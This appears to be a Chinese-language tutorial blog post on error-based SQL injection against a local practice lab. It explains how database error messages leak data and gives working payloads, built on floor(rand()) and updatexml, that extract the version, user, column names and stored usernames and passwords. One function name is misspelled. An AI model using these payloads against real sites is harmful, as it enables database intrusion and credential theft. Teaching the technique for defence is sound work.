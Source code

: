```yaml
---
layout: post
title: 1.2.2-SQL注入-SQL注入语法类型-报错注入
categories:
  - - 安全
    - web安全
    - sql注入
tags: 
  - sql注入
  - web安全
abbrlink: 4239639054
date: 2018-06-16 00:00:00
description: SQL注入-SQL注入语法类型-报错注入
---
```


## 报错注入

### 01 报错注入原理

构造payload让信息通过错误提示回显出来  
应用场景：  
查询不回显内容，会打印错误信息  
Update、insert等语句，会打印错误信息  

	if($row)
	{
		echo 'Your Login name:'.$row['username'];
	}
	else
	{
		print_r(mysql_error());
	}

### 02 报错注入方法

![](https://raw.githubusercontent.com/tea9/image/master/blog_img/04/01.png)
![](https://raw.githubusercontent.com/tea9/image/master/blog_img/04/02.png)
![](https://raw.githubusercontent.com/tea9/image/master/blog_img/04/03.png)

	select count(*) from information_schema.tables group by concat((select version()),floor(rand(0)*2));

	http://127.0.0.1:90/Less-1/?id=1' and (select count(*) from information_schema.tables group by concat((select version()),floor(rand(0)*2)))--+

	http://127.0.0.1:90/Less-1/?id=1' and (select count(*) from information_schema.tables group by concat((select user()),0x7e,floor(rand(0)*2)))--+

	http://127.0.0.1:90/Less-1/?id=1' and (select count(*) from information_schema.tables group by concat((select database() limit 0,1),0x7e,floor(rand(0)*2)))--+ // 表名

	http://127.0.0.1:90/Less-1/?id=1' and (select count(*) from information_schema.tables group by concat(0x7e,(select column_name from information_schema.columns where table_name='users' limit 3,1),0x7e,floor(rand(0)*2)))--+ // 列名

	http://127.0.0.1:90/Less-1/?id=1' and (select count(*) from information_schema.tables group by concat(0x7e,(select column_name from information_schema.columns where table_name='users' limit 3,1),0x7e,floor(rand(0)*2)))--+ // 列名

	http://127.0.0.1:90/Less-1/?id=1' and (select count(*) from information_schema.tables group by concat(0x7e,(select concat(username,0x7e,password) from users limit 0,1),0x7e,floor(rand(0)*2)))--+ // 数据

![](https://raw.githubusercontent.com/tea9/image/master/blog_img/04/04.png)
![](https://raw.githubusercontent.com/tea9/image/master/blog_img/04/05.png)

	// 特殊符号导致方法报错，报错可以输出错误信息
	select ectractvalue(1,concat(0x7e,(select user()),0x7e));
	select updatexml(1,concat(0x7e,(select user()),0x7e),1);  

	报错注入只有32位长 用 substr截取字符串substr('ab',1,2) // 从第一位截取两个
	http://127.0.0.1:90/Less-1/?id=1' and updatexml(1,concat(0x7e,(select substr(concat(password),1,2) from users limit 0,1),0x7e),1) --+








